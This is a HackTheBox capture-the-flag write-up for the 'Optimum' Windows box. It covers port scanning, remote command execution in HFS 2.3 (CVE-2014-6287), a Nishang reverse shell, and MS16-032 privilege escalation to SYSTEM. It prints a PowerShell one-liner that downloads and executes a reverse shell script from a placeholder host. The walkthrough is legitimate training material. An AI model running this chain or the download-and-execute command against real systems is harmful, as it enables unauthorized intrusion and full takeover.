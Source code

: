 # HackTheBox - Optimum Writeup


Box author | {{< person url="https://app.hackthebox.com/users/1" name="ch4p" picture="https://www.hackthebox.com/storage/avatars/08c255a334e10b3033ab7263e6b32422.png" >}}

<!--more-->

## Nmap
First, let’s scan the IP address by using the Nmap

```sql
# Nmap 7.92 scan initiated Fri Jun 10 19:25:32 2022 as: nmap -sC -sV -vv -p- --min-rate=10000 -oN nmap/optimum_all 10.10.10.8
Nmap scan report for 10.10.10.8
Host is up, received echo-reply ttl 127 (0.40s latency).
Scanned at 2022-06-10 19:25:32 +08 for 25s
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE REASON          VERSION
80/tcp open  http    syn-ack ttl 127 HttpFileServer httpd 2.3
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-title: HFS /
|_http-favicon: Unknown favicon MD5: 759792EDD4EF8E6BC2D1877D27153CB1
|_http-server-header: HFS 2.3
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Jun 10 19:25:57 2022 -- 1 IP address (1 host up) scanned in 24.94 seconds
```

Interesting, the only port open is `80` and the banner says `HttpFileServer/HFS 2.3`

## HFS (HttpFileServer)
{{< admonition tip "Description" >}}
**HTTP File Server**, otherwise known as `HFS`, is a free web server specifically designed for publishing and sharing files. </br>
It's different from classic file sharing because it uses web technology to be more compatible with today's Internet. _resource: [wikipedia](https://en.wikipedia.org/wiki/HTTP_File_Server)_
{{< /admonition >}}

I navigate to the `port 80` through the web browser. WOW! it's just a simple webpage and its also can search files,? I believed. Well, this box is really old by the time I'm writing this. Like always I'm asking google about this information and waiting for the result to come in.

![HFS webpage](hfs-main-page.png "HFS webpage")

### CVE-2014-6287
Upon searching on the internet. I found this `HFS` version is vulnerable to `RCE (remote command execution)` and got assigned to a [CVE-2014-6287](https://nvd.nist.gov/vuln/detail/CVE-2014-6287). I also found this [article](https://www.kb.cert.org/vuls/id/251276) with a payload sample.

{{< admonition tip "CVE description" >}}
The `findMacroMarker` function in `parserLib.pas` in Rejetto HTTP File Server (aks HFS or HttpFileServer) 2.3x before 2.3c allows remote attackers to execute arbitrary programs via a `%00` sequence in a search action.
{{< /admonition >}}

### Burpsuite
I already have the [payload sample](https://www.kb.cert.org/vuls/id/251276) and I'm gonna try it out with simple command. The command is `whoami`. First, I intercept the `search` endpoint with [burpsuite](https://portswigger.net/burp). Then, send the request through the repeater and put the payload in the search query. However, it didn't display any output from my `whoami` command. Then, I remembered about the `ping` command. So, I try to ping myself to see, if I get the connection through the box.

![ping myself](burpsuite-search-ping.png "ping myself")

![receiving the ping request](tcpdump-ping-tun0.png "receiving the ping request")

## Nishang: Invoke-PowerShellTcp.ps1

The command runs successfully, with this information, I'm gonna try to gain a foothold on the box with [nishang](https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1) reverse shell script. Check this [blog](https://shafiqaiman.com/posts/htb/responder/#nishang-invoke-powershelltcpps1)  where I configure the reverse shell script.

First, I created a new directory called `www` and put the reverse shell script in the same directory. Then, I'm hosting the [python](https://www.python.org/downloads/) web server in port `80` and run the `nc` listener with `rlwrap` since this is a `Windows` machine. Back to the burpsuite, I use this [payload](https://shafiqaiman.com/posts/htb/responder/#nishang-invoke-powershelltcpps1), which is downloading the reverse shell script and executing it. `Don't forget the (dot) at the end`. 

![serve python server](python3-server-and-nc-listening.png "serve python server")

![execute reverse shell](burpsuite-with-powershell-reverse-shell.png "execute reverse shell")

![shell as kostas](nc-catch-the-shell.png "shell as kostas")

NICE!. Finally, I'm in as a `kostas` user. Since this is an old machine from [HacktheBox](https://app.hackthebox.com/), I'm gonna assume they are plenty of exploits on the internet waiting to be found. Well, I'm going to check this machine system with the `systeminfo` command first.

![systeminfo](run-the-systeminfo-command.png "systeminfo")

### MS16-032 : CVE-2016-0099

This is a `Windows Server 2012R2` version `6.3.9600 N/A Build 9600` and the architecture type is `64 bit`. Upon searching this version on the net. I realize this version is vulnerable to a lot of things. However, I'm gonna abuse the [Secondary Logon Service](https://googleprojectzero.blogspot.com/2016/03/exploiting-leaked-thread-handle.html) to gain the `SYSTEM` shell that is dubbed as [MS16-032](https://docs.microsoft.com/en-us/security-updates/securitybulletins/2016/ms16-032) or [CVE-2016-0099](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-0099).

### EmpireProject: Invoke-MS16032.ps1

I manage to find this [exploit](https://www.exploit-db.com/exploits/39719) in the [exploit-db](https://www.exploit-db.com/). However, the exploit itself didn't work in my case because it's open the `cmd` through `GUI` and I don't have access to the `GUI` instance. Luckily, I found the [powershell exploit](https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/privesc/Invoke-MS16032.ps1) that allows me to privesc from the [EmpireProject](https://github.com/EmpireProject/Empire).

{{< admonition tip "EmpireProject" >}}
Is a post-exploitation framework that includes a pure-PowerShell2.0 Windows agent, and a pure Python 2.6/2.7 Linux/OS X agent. </br>
It is the merge of the previous PowerShell Empire and Python EmPyre projects. </br>
_resource: [EmpireProject github](https://github.com/EmpireProject/Empire)_
{{< /admonition >}}

So, I'm gonna download it with the `wget` command. Then, edit the file by putting the **example** in the last line also edit the `URL` to point into my python server with another reverse shell called `yeet.ps1`

_Note: the example start with **Invoke-MS16-032**. However, the function is named **Invoke-MS16032**_

![download the exploit](download-ms16032-wget.png "download the exploit")

![exploit example](edit-the-exploit-file-ms16032.png "exploit example")

![edit the exploit](put-at-the-last-line.png "edit the exploit")

### Windows: sysnative

I tried a bunch of times to run this exploit but the result is nothing. This machine is `64` bit and also the exploit is tested on a `64` bit `2k12R2` server. Now, I'm dumbfounded. Then, I realize maybe the powershell itself running on another architecture. So, I [check](https://stackoverflow.com/questions/8588960/determine-if-current-powershell-process-is-32-bit-or-64-bit/8589649#8589649), and it's confirmed. The powershell is running on `32` bit.

![exploit compatibility](example-tested-exploit.png "exploit compatibility")

![check powershell architecture](check-the-arc-of-powershell-32-bit.png "check powershell architecture")

With quick googling, I found this [answer](https://stackoverflow.com/questions/19055924/how-to-launch-64-bit-powershell-from-32-bit-cmd-exe/19056011#19056011) on [stackoverflow](https://stackoverflow.com/). I need to run the powershell in the `sysnative` directory to get the `64` bit version. Well, I need to restart over again. So, back again to the burpsuite and put this as the payload. Then, catch the shell with `nc`.

```powershell
C:\Windows\sysnative\WindowsPowerShell\v1.0\powershell.exe "IEX(New-Object Net.WebClient).DownloadString('http://example.com/Invoke-PowerShellTcp.ps1')"
```

When I checked the powershell architecture indeed it is running on 	`64` bit. YES!!!

![using 64bit powershell](check-the-arc-of-powershell-64-bit.png "using 64bit powershell")

## Windows: Privilege Escalation

Now, I'm executing the [privesc exploit](https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/privesc/Invoke-MS16032.ps1) once again. My python server shows the request from the file called `Invoke-MS16032.ps1` followed with `yeet.ps1` and finally, I've got a shell as `system`.

![shell as nt authority\system](last-image.png "shell as nt authority\system")

